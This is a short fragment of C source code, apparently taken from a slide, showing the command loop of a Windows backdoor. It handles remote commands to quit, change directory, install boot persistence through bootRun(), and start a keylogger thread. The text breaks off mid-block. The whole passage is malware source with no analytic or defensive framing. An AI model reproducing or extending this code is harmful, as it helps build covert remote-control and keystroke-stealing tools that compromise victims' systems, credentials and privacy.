

if (strncmp("q", buffer, 1) == 0) {
			closesocket(sock);
			WSACleanup();
			exit(0);
		}
		else if (strncmp("cd ", buffer, 3) == 0) {
			chdir(str_cut(buffer,3,100));
		}
		else if (strncmp("persist", buffer, 7) == 0) {
			bootRun();
		}
		else if (strncmp("keylog_start", buffer, 12) == 0) {
			HANDLE thread = CreateThread(NULL, 0,logg, NULL, 0, NULL);
			goto jump;